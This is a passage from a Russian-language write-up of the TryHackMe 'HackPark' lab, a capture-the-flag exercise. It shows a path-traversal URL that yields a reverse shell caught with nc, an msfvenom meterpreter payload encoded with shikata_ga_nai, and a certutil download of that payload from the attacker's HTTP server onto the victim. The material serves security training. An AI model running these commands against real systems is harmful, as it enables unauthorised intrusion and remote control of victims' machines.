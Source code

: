 Перейдя по url "http://10.10.10.10/?theme=../../App_Data/files" получаю reverse от iis
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/exploits]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.50.38] 49239
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```


## ⚙️ Привилегии

Получаю немного информации о системе, чтобы сгенерировать правильную полезную нагрузку
```bash
set pro
c:\windows\system32\inetsrv>set pro
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
```

И генерирую с помощью msfvenom
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/exploits]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.21.104.16 LPORT=5555 -f exe -o meter-5555.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: meter-5555.exe
```

Из директории с оболочкой meterpreter запускаю сервер
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - HackPark/exploits]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

Перемещаюсь в директорию с возможностью записи и скачиваю на жертву meter-5555.exe
```bash
c:\Users\Public>certutil -urlcache -f http://10.21.104.16:8888/meter-5555.exe meter-5555.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
dir
c:\Users\Public>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public
07/04/2025  06:01 AM    <DIR>          .
07/04/2025  06:01 AM    <DIR>          ..
08/22/2013  08:39 AM    <DIR>          Documents
08/22/2013  08:39 AM    <DIR>          Downloads
```